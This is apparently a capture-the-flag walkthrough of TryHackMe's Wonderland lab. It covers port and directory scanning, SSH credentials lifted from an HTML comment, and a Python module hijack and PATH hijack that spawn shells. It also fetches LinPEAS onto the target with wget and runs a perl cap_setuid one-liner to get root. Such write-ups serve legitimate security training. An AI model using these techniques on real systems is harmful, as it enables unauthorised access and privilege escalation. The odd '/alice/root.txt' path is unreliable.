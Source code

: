 # [Wonderland](https://tryhackme.com/room/wonderland)

## Fall down the rabbit hole and enter wonderland.

# Capture the flags

## Enter Wonderland and capture the flags.

### Obtain the flag in user.txt

_Everything is upside down here._

1. Start with a port scan to identify running services on the target machine

```bash
nmap <TARGET_IP>
```

<img width="721" height="196" alt="SCREEN01" src="https://github.com/user-attachments/assets/05b8122e-c6a3-49ce-8100-fe63bf40b0f0" />

2. Continue enumeration to discover `/r/a/b/b/i/t` directory

```bash
gobuster dir -u http://<TARGET_IP>/r/a/b/b/i/t -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

3. Examine the source code of `http://<TARGET_IP>/r/a/b/b/i/t/` page. Hidden in the HTML comments, you'll find SSH credentials
   - **Credentials found:** `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

<img width="694" height="306" alt="SCREEN02" src="https://github.com/user-attachments/assets/099492ba-4227-4cbd-b776-690ae2d79efc" />

4. Use the discovered credentials to establish SSH connection

```bash
ssh alice@<TARGET_IP>
# Password: HowDothTheLittleCrocodileImproveHisShiningTail
```

5. Check sudo privileges and examine files in Alice's home directory
   - The sudo output reveals that Alice can run `walrus_and_the_carpenter.py` as the rabbit user

```bash
sudo -l
cat walrus_and_the_carpenter.py
```

<img width="720" height="161" alt="SCREEN03" src="https://github.com/user-attachments/assets/f3fb0050-563e-4137-81ca-b52e36e630cc" />

6. Analyze the Python script to identify import statements. The script imports the `random` module, which we can hijack. This exploits Python's module search path to execute our malicious `random.py` instead of the legitimate module

```bash
echo 'import os; os.system("/bin/bash")' > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

7. After gaining access as the rabbit user, explore the home directory.

```bash
whoami
ls -la /home/rabbit
```

8. Copy the `teaParty` binary for analysis

```bash
cp /home/rabbit/teaParty /tmp
```

9. Transfer the binary to your attacking machine for reverse engineering

```bash
scp alice@<TARGET_IP>:/tmp/teaParty .
```

10. Analyze the `teaParty` binary using Ghidra or similar tools. The analysis reveals:
    - The binary calls the `date` command without using absolute paths
    - This creates a PATH hijacking vulnerability

<img width="1259" height="655" alt="SCREEN04" src="https://github.com/user-attachments/assets/69e6148e-a9f1-4aac-a8e8-2876f3737fe5" />

11. Create a malicious `date` binary and manipulate the PATH environment variable. This exploits the binary's reliance on PATH resolution to execute our malicious `date` command

```bash
echo -e '#!/bin/bash\n/bin/bash' > date
chmod +x date
export PATH=/home/rabbit:$PATH
./teaParty
```

12. Download LinPEAS for comprehensive privilege escalation enumeration

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
python -m SimpleHTTPServer
```

13. Transfer and execute LinPEAS on the target

```bash
cd /tmp
wget http://10.10.106.64:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

14. LinPEAS reveals that `/usr/bin/perl` has the `cap_setuid+ep` capability, allowing privilege escalation

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

15. Navigate to the root directory and retrieve the user flag

```bash
cat /root/user.txt
```

<img width="724" height="73" alt="SCREEN05" src="https://github.com/user-attachments/assets/f2fb8fd4-9704-41e4-bdb3-aa37693276bd" />

---

### Escalate your privileges, what is the flag in root.txt?

1. The root flag is located in `/alice/root.txt`

```bash
cat /alice/root.txt
```

<img width="721" height="36" alt="SCREEN06" src="https://github.com/user-attachments/assets/074cd42a-fc89-4025-a519-2c1c8abd5751" />
